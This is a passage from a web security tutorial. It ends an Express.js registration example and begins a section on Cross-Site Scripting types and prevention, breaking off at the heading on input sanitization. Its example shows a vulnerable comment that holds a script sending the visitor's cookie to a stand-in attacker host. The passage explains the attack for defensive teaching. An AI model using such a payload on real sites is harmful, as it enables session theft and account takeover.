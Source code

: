 ```javascript
    // Create user in database, etc.
    
    res.json({
      success: true,
      message: 'Registration successful!'
    });
  }
);

app.listen(3000, () => {
  console.log('Server running on port 3000');
});
```

## Cross-Site Scripting (XSS) Prevention

Cross-Site Scripting (XSS) is a security vulnerability that allows attackers to inject malicious client-side scripts into web pages viewed by other users.

### Types of XSS Attacks

1. **Stored XSS**: Malicious code is stored on the server (e.g., in a database) and served to other users later
2. **Reflected XSS**: Malicious code is reflected off the web server through a request parameter or form submission
3. **DOM-based XSS**: Vulnerability exists in client-side code rather than server-side code

### XSS Example

Consider a comment form that renders user input directly:

```html
<!-- Vulnerable code -->
<div class="comments">
  <!-- Server renders this from database -->
  <div class="comment">
    <h3>User123</h3>
    <p>Hello, this is a comment!</p>
  </div>
  
  <!-- Attacker submits this -->
  <div class="comment">
    <h3>Hacker</h3>
    <p><script>document.location='https://malicious-site.com/steal.php?cookie='+document.cookie</script></p>
  </div>
</div>
```

### XSS Prevention Techniques

#### 1. Input Sanitization
